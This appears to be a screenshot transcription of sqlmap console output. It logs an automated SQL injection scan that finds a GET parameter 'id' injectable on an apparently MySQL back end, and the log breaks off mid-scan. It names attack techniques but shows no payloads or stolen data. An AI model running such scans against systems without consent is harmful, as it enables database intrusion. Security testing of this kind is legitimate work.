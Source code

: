     [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 10:17:13 /2023-12-14/

    [10:17:13] [INFO] testing connection to the target URL
    [10:17:13] [INFO] checking if the target is protected by some kind of WAF/IPS
    [10:17:13] [INFO] testing if the target URL content is stable
    [10:17:14] [INFO] target URL content is stable
    [10:17:14] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
    [10:17:14] [INFO] testing for SQL injection on POST parameter 'id'
    [10:17:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [10:17:14] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
    [10:17:14] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
    [10:17:14] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
    [10:17:14] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
    [10:17:14] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
    [10:17:14] [INFO] testing 'Generic inline queries'
    [10:17:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
    [10:17:14] [WARNING] time-based comparison requires larger statistical model, please wait. (done)
    [10:17:14] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
    [10:17:14] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
    [10:17:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [10:17:14] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
    [10:17:14] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
    [10:17:14] [INFO] testing 'Oracle AND time-based blind'
    it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
    [10:17:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [10:17:28] [WARNING] POST parameter 'id' does not seem to be injectable
    [10:17:28] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
    [10:17:28] [INFO] testing for SQL injection on GET parameter 'id'
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
    [10:17:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [10:17:45] [WARNING] reflective value(s) found and filtering out
    [10:17:45] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
    [10:17:45] [INFO] testing 'Generic inline queries'
    [10:17:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
    [10:17:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
    [10:17:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
    [10:17:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
    [10:17:45] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
    [10:17:45] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
    [10:17:45] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
    [10:17:45] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
    [10:17:45] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
    [10:17:45] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
    [10:17:45] [INFO] testing 'MySQL inline queries'
    [10:17:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
    [10:17:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries'